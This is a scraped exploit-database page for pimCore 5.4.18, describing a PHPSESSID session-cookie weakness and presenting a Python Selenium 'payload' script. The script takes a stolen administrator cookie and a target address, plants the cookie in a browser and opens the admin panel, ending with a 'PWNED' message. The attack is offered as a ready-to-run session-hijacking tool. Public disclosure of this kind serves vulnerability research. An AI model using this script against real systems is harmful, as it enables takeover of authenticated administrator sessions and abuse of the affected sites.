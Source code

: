 ```yaml
---
title: pimCore 5.4.18 - PHPSESSID cookie Session Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38151&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-13
fetch_date: 2025-10-04T03:42:56.895410
---
```


# pimCore 5.4.18 - PHPSESSID cookie Session Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# pimCore 5.4.18 - PHPSESSID cookie Session Exploit

2023-01-12 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38151
## Title: pimCore-5.4.18-skeleton Sensitive Cookie with Improper SameSite Attribute - PHPSESSID cookie Session vulnerability
## Author: nu11secur1ty
## Vendor: https://pimcore.com/en
## Software: https://packagist.org/packages/pimcore/skeleton
## Reference: https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/pimcore/pimCore-5.4.18-skeleton

## Description:
The pimCore-5.4.18-skeleton suffers from Sensitive Cookie with Improper SameSite Attribute vulnerability - PHPSESSID cookie Session management connection requests are not sanitizing correctly.
There are no securing changes in PHPSESSID cookies for every request - validating sessions and changing a cookie for every connection - POST Request.
The attacker in the same network can trick the user - the administrator of this system and can steal his cookie,
then he can make very evil things by using the same session from the name of the already authenticated user - administrator, on a couple of PCs with different IPs which are used from different machines into that network.
When the attacker steals the cookie, he can manipulate the same session, for example, he can log out or do very malicious stuff.
This is a very stupid developer's error, and this can be very dangerous for the owner of the system.
The attack is possible also in the external network!

## STATUS: HIGH Vulnerability

[+] Payload:

```Python
#!/usr/bin/python3
# @nu11secur1ty 2023
import time
from selenium import webdriver

driver = webdriver.Chrome()
print("Give the stolen cookie...\n")
cookie = input()
print("Give the domain or IP of the owner of the cookie...\n")
target = input()

driver.maximize_window()
driver.get(target+ 'admin/?_dc=1673370965&perspective=')
driver.add_cookie({'name': 'PHPSESSID', 'value': cookie})

print(driver.get_cookie('PHPSESSID'))
driver.get(target+ 'admin/?_dc=1673370965&perspective=')

time.sleep(3)
print("Press any key to stop the exploit...\n")
input()

print("Your PHPSESSID is PWNED")
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/pimcore/pimCore-5.4.18-skeleton)

## Reference:
[href](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions)

## Proof and Exploit:
[href](https://streamable.com/lorw8x)

## Time spent
`03:00:00`

## Writing an exploit
`00:25:00`
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)